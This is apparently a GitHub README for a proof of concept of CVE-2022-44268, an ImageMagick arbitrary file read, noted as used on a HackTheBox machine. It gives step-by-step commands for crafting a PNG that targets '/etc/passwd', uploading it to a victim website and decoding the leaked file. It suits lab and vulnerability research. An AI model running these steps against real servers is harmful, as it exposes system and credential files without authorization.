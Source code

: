 # ImageMagick-lfi-poc
### ImageMagick Arbitrary Read Files - CVE-2022-44268

also used in htb pilgrimage

## ImageMagick LFI PoC [CVE-2022-44268]


The researchers at [MetabaseQ](https://www.metabaseq.com/imagemagick-zero-days/) discovered CVE-2022-44268, i.e. ImageMagick 7.1.0-49 is vulnerable to Information Disclosure. When it parses a PNG image (e.g., for resize), the resulting image could have embedded the content of an arbitrary remote file (if the ImageMagick binary has permissions to read it).



Step 1 :

run

```
pip install pillow
sudo apt install graphicsmagick-imagemagick-compat
```

Step 2 ;

run

```
python3 magick_exploit.py generate -l [local_file] -o [output_file]
```

here in this case the local file is '/etc/passwd' which i want to get from the victim machine.

step 3 :

upload the image file on the website

step 4 :

get he converted image file from the website.
name it as 'downloaded_image.png'

step 5:

run 

```
python3 decode_profile.py
```

![](20230723122440.png)

## Note

if there is some error like

```
 "/home/kali/codeplay/oscp/htb/machines/pilgrimage/decode_profile.py", line 8, in <module>
    profile = output_str.split("Raw profile type: \n\n    ")[1].split('Date:create:')[0]
              ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^^^
IndexError: list index out of range

```

it means that the file doesnt exist. 
## Credits

1. https://github.com/adhikara13/CVE-2022-44268-MagiLeak
2. https://github.com/Sybil-Scan/imagemagick-lfi-poc


